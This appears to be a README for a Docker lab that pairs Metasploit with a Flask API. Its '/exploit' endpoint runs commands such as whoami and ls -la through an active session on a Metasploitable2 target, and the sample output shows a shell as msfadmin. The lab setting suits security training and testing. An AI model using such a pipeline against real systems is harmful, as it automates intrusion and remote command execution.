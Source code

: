 # If containers are running:
    docker compose down --remove-orphans

# Build and Start All Containers (might have to run this multiple times to go through)
docker compose up -d --build

# Check the status of all containers to confirm they’re up:
docker ps

# Enter the operator container:
docker exec -it operator /bin/bash

# Once inside, start msfconsole with the required configuration file:
msfconsole -r /usr/src/metasploit-framework/docker/msfconsole.rc

# In a separate terminal, check the logs for eshu to ensure the Flask app started successfully (make sure you're within the improvedOp directory):
docker logs eshu

# Look for a line like this to confirm it’s listening on 10.1.1.99:5000:
 * Running on http://10.1.1.99:5000

# Once eshu is confirmed to be running, open a new terminal and run:
curl.exe -X POST http://localhost:5000/exploit -H "Content-Type: application/json" -d '{\"commands\": [\"whoami\", \"uname -a\", \"ls -la\"]}'

# If you get an error while using powershell use:
Invoke-RestMethod -Uri http://localhost:5000/exploit -Method Post -Body '{"commands": ["whoami", "uname -a", "ls -la"]}' -ContentType "application/json"

# You should see:
{
    "status": "Commands executed",
    "session_id": "1",
    "output": {
        "whoami": "msfadmin",
        "uname -a": "Linux metasploitable2 5.15.153.1-microsoft-standard-WSL2 #1 SMP Fri Mar 29 23:14:13 UTC 2024 x86_64 GNU/Linux",
        "ls -la": "total 28\ndrwxr-xr-x 5 msfadmin msfadmin 4096 2017-04-11 06:53 .\ndrwxr-xr-x 6 root     root     4096 2010-04-16 02:16 ..\nlrwxrwxrwx 1 root     root        9 2012-05-14 00:26 .bash_history -> /dev/null\ndrwxr-xr-x 4 msfadmin msfadmin 4096 2010-04-17 14:11 .distcc\n-rw-r--r-- 1 msfadmin msfadmin  586 2010-03-16 19:12 .profile\n-rwx------ 1 msfadmin msfadmin    4 2012-05-20 14:22 .rhosts\ndrwx------ 2 msfadmin msfadmin 4096 2010-05-17 21:43 .ssh\n-rw-r--r-- 1 msfadmin msfadmin    0 2017-04-11 06:53 .sudo_as_admin_successful\ndrwxr-xr-x 6 msfadmin msfadmin 4096 2010-04-27 23:44 vulnerable"
    }
}
# You can interact with the active SSH session from msfconsole by running:
sessions
